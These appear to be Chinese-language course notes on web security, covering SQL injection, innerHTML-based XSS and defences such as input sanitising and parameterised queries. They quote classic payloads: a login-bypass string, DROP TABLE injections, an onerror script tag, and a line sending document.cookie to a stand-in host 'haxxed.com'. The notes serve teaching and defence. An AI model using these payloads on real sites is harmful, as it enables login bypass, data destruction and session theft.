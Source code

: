 # security

1. 一些網路傷害：
   1. password leak
   2. database compromised
   3. data breaches
   4. viruses
   5. hacker attacks
2. 概念：
   1. security是防禦的概念，就像守門員，不會帶給公司成長，很少人看得到。
   2. senior developer要知道，security的重要性：
      1. 公司不會造成具大的損失
      2. 讓系統穩定
   3. security是不可能100%的防禦，駭客技術也一直不斷進步，但是要超越80%網站的安全性並不難，做到一些原則就很可能達到，這是這個section的目的。
3. 所有議題：
   1. injections
   2. authentication
   3. don't trust anyone
   4. data management
   5. access control
   6. secure headers
   7. code secrets
   8. xss and csrf
   9. https everywhere
   10. logging
   11. 3rd party libraries

## injections

1. 最常見，最重要
2. 意思是**把一段code注入另一段code**，我們從別的地方收到一段我不想要的code，卻改變了或是搞爛了我們自己的code。
3. 最有名的就是sql injection，例如：
   1. `'or 1=1--`
      1. 通常用於密碼欄
      2. [參考資料](https://www.gushiciku.cn/pl/pXfm/zh-tw)
         1. 資料庫原本該收到的是這樣`Select * From 使用者表 Where UserName=xxx and Password=xxx`，加了這行之後變成`Select * From 使用者表 Where UserName=xxx and Password=xxx or 1=1--`
         2. 也就是不管where和or之間的條件成不成立，`1=1`都會成立，所以使用者table裡的所有資料都會被回傳。
         3. 而後端設計通常是有收到回傳，代表登入成功，所以用這種injection進密碼就可以登入網站了。
      3. `--`代表後面的sql指令都comment掉了。
   2. `'; DROP TABLE users; --`
4. injection練習：
   1. 建立一個table
   2. injection的sql

      ```sql
      INSERT INTO sqlinjection(email) VALUES (''; DROP TABLE sqlinjection; --);
      ```

   3. 上面的意思是
      1. 把email這個column輸入成empty，`''`可以刪除，injection仍然有效。
      2. `;`代表前面結束了。
      3. 然後下面開始新的指令`DROP TABLE`，用來把sqlinjection這個table刪除，`;`代表前面指令結束了。
      4. `--`代表把後面的指令全部comment掉，不執行了。
      5. 之所以可行是因為第二個`'`讓sql的value的字串結束了，而`;`讓sql的命令結束了，所以後面就可以再加上sql的指令了。
   4. 網路上一堆人一天到晚在嚐試在email或是某些欄位貼上這種字串，看能不能injection成功。
   5. `.innerHTML`很危險
      1. 雖然他不會直接讓`<script></script>`執行，因為他設定成html已經執行了，裡面的javascript不會被執行，除非你reload。
      2. 但是比較聰明的injection會把javascript包在error handler裡面，例如：`<img src='/' onerror="alert('you are injected')">`，所以`.innerHtml`非常危險。
      3. 解決方式是用以下兩個步驟：
         1. 先用`document.createTextNode();`建立node。
         2. 再用`.appendChild()`，把node放進要放的地方。
5. 預防方式：
   1. 上面那種方式稱為sanitize input。
      1. 另外還可以限制輸入的格式，例如限制數字什麼的，也會比較安全。
      2. 可以設計black list，把危險的input擋掉。
      3. 可以設計white list，只讓安全的input可以輸入。
   2. parametrize queries。
      1. 預先寫好的function，把input拿到資料，當成一個一個的arameter放進function裡，function自己會用這些對應的parameter去跟資料庫溝通。
      2. 又稱為object relational mappers，不會有drop table這種statement被傳進去。
      3. 例如：Knex.js就是用這種方法。
   3. 不管前、後端永遠不要直接把input之接inject到任何地方。
6. 練習：
   1. [sql injection](https://www.hacksplaining.com/exercises/sql-injection)
   2. [Front End Code](https://github.com/aneagoie/security-client-exercise)
   3. [Back End Code](https://github.com/aneagoie/security-server-exercise)
7. XSS：
   1. 讓其它browser執行危險的javascript，方法是把javascript注入input中，顯現在文章中，其它client讀了文章就中獎。
   2. 最有名的就是`window.location = 'haxxed.com?cookie=' + document.cookie`，`haxxed.com`是某個壞網站。
   3. cookie：
      1. server會丟給client，client會存在browser裡。
      2. server可以認browser的cookie，就直接讓他登入，而不用再輸入帳號和密碼了。
      3. 所以cookie不能亂給別人，而上面的XSS就會把cookie給別人，讓別人可以登入你的帳號，這稱為**session hijack**。
      4. 預防方式依然是`sanitizing input`